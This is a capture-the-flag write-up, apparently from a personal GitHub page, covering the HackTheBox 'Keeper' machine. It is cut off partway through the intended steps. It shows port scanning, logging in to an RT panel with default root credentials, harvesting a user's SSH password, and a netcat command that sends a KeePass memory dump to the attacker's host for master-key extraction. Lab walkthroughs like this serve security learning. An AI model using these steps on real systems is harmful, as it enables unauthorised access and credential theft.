 # Machine: Keeper [Hacked]

This is the twelfth machine that I have solved from hackthebox, I also used it to test the script machines, on my Markov machine, a Linux distribution that I made for pentesting. but I will indicate the common steps to follow without the [machines](https://github.com/LuisHDeAvila/htb/blob/main/machines) script. IP_MACHINE is the IP address of the keeper machine.
```
  nmap -sC -sV -p- --min-rate 5000 IP_MACHINE -vvv
```
We discover the domain keeper.htb on port 80 and add it to /etc/hosts, then we enter that domain from the web browser and a message appears to redirect us to the tickets.keeper.htb subdomain, we add it to /etc/hosts next to the domain keeper.htb, We see a login page for the RT 4.4.4 administration panel, querying default credentials
```
 NOTE: The default credentials for RT are: User: **root** Pass: password Not changing the root password from the default is a **SECURITY** risk!
# get access to the panel
# enter path:
>>> Administrador > Usuarios > elegir
```
by obtaining the credentials of the user who is registered in that panel, we start a session through SSH
```
  ssh user@domain
  # entry password of user
  # login successful
```
There we get the user.txt flag in the user's home directory, now continue to get access as root, and we also see a compressed file, which we copy to a temporary directory
```
  cd $(mktemp -d)
  cp ~/*.zip . # I don't remember if the extension is zip or rar
  unzip *.zip
```
we obtain a keepass dump with extension .dmp and a password database file with extension kdbx. So we will need a master key to be able to read the database, we can obtain it using a password-dumper for keepass, in this case use one made with dotnet v6 [keepass-password-dumper](https://github.com/vdohney/keepass-password-dumper), but first we need to get those files locally
```
  # local machine
  nc -nlvp 1234 > KeePassDump.dmp
```
IP_MY_MACHINE is the ip of interface tun0 of local machine, and DUMP_FILE.dmp is the file that we will extract from the keeper machine
```
  # ssh session on keeper machine
  nc IP_MY_MACHINE 1234 < DUMP_FILE.dmp
```

## to be continued... 
